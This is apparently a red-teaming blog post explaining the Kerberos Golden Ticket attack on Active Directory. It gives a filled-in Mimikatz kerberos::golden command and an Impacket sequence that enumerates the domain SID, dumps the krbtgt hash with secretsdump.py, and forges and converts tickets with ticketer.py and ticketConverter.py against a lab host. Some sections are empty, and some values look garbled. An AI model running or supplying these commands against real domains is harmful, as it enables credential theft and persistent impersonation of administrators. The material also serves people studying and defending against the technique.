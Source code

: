 ```yaml
---
title:  "Kerberos attacks 4-golden Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 4-golden Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## golden Ticket
* is a famous technique of impersonating users on an AD domain by abusing Kerberos authentication
* A Golden Ticket is a type of attack in which an adversary gains control over an Active Directory Key Distribution Service Account (KRBTGT), and uses that account to forge valid Kerberos Ticket Granting Tickets (TGTs). This gives the attacker access to any resource on an Active Directory Domain
* Golden Ticket give attackers unrestricted access to networked resources and the ability to forge new tickets, allowing them to reside on networks indefinitely by being disguised as credentialed administrator-level users.






## Forging Kerberos Tickets
* Forging Kerberos tickets depends on the password hash available to the attacker
* Golden Ticket requires the KRBTGT password hash.
* Silver ticket requires the Service Account (either the computer account or user account) password hash.
* Create anywhere and user anywhere on the network, without elevated rights.

## requirements for forging TGT
 * Domain Name
 * SID
 * Domain KRBTGT Account NTLM password hash
 * Impersonate user
 
 
```
kerberos::golden  ## Name of the module  
/user:Administrator  ## username of which the TGT is generated
/domain:karim.net  ## Domain 
/sid:5-1-5-21-268341927-4156871508- 1792461683  ## SID of the domain 
/krbtgt:a9b30e5bOdc865eadcea9411e4ade72d   NTLM (RC4) hash of the krbtgt account. Use /aes128 and /aes256 for using AES keys. 
/id:500 /groups:512 Optional User RID (default 500) and Group default 513 512 520 518 519)
/ptt  ## Injects the ticket in current PowerShell process ,no need to save the ticket on disk 
/startoffset:0  ##Optional when the ticket is available (default 0 - right now) in minutes. Use negative for a ticket available from past and a larger number for future. 
/endin:600  ##Optional ticket lifetime (default is 10 years) in minutes. The default AD setting is 10 hours = 600 minutes 
/renewmax:10080  ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
```
## golden ticket with Mimikatz
## golden ticket with Impacket
used for lookupid python script to enumerate the Domain SID.
```
python3 lookupsid.py user/Administrator:password@ip
python3 lookupsid.py admin/Administrator:p@ssw0rd@192.168.128.140
```

<img src="/img/golden/sidk.PNG" alt="Getting-gz" width="800" height="150"> 

used secretsdump.py the python script for extracting Krbtgt hash
```
python3 secretsdump.py administrator:p@ssw0rd@192.168.128.140 -outputfile krbhash -user-status   
```

<img src="/img/golden/secretdump.PNG" alt="Getting-gz" width="800" height="150"> 

Use ticketer.py script that will create TGT/TGS tickets,Tickets duration is fixed to 10 years from now.
```
sudo ticketer.py -nthash <krbtgt/service nthash> -domain-sid <your domain SID> -domain <your domain FQDN> baduser
sudo python3 ticketer.py -nthash 564e72d3c6c1927de1d2f252665e7c54 -domain-sid S-1-5-21-750046758-1551849808-2392872301 -domain karim.net admin
```

<img src="/img/golden/crer.PNG" alt="Getting-gz" width="800" height="150"> 

Use ticket_converter.py script which will convert kirbi files into ccache file
```
sudo python3 ticketConverter.py admin.ccache ticket.kirbi  
```

<img src="/img/golden/convert.PNG" alt="Getting-gz" width="800" height="150"> 

 whenever you want to access the Domain server service you can use the ticket.kirbi file

## golden ticket with Rubeus.exe
